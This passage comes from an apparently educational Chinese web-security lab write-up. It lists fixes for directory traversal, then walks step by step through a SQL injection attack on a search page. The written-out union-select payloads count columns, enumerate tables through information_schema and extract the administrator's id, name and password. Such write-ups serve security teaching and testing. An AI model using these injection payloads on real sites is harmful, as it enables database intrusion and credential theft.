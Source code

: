 #### 2.3.3 目录遍历漏洞的修复方法

1. 对用户输入进行验证，过滤特殊字符如 `../` 和 `~/`。
2. 采用白名单对所有输入进行验证。
3. 对用户传递的文件名参数统一编码，拒绝包含恶意字符的参数。

### 2.4 sql 注入漏洞检测

#### 2.4.1 sql 注入漏洞介绍

> 攻击者通过控制由 Web 前端传入后端的参数来构造 sql 语句，被程序代入数据库中查询信息，从而实现对数据库的任意操作。

#### 2.4.2 sql 注入漏洞攻击过程

1. 在 search 页面的搜索框中输入 `'` 发现不显示结果，开始攻击。判断字段数。
```

# 输入
1' and 1=1 order by 2 --+
1' and 1=1 order by 3 --+
1' and 1=1 order by 4 --+
1' and 1=1 order by 5 --+   # 无回显，表明有4个字段。
```
2. 输入 `-1' union select 1,2,3,4-- ` 查看回显点
![](./img/25.png)
3. 输入 `1' union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database() -- ` 查看表名，分别为：admin，comment，users。
![](./img/26.png)
4. 输入 `1' and 1=2 union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name=‘admin’ -- ` 查看表项为 admin_id、admin_name、admin_pass。
![](./img/27.png)
5. 输入 `-1' union select 1,group_concat(admin_id,0x3a,admin_name,0x3a,admin_pass),3,4 from project.admin-- ` 查看管理员 admin 的 id、name、passwd。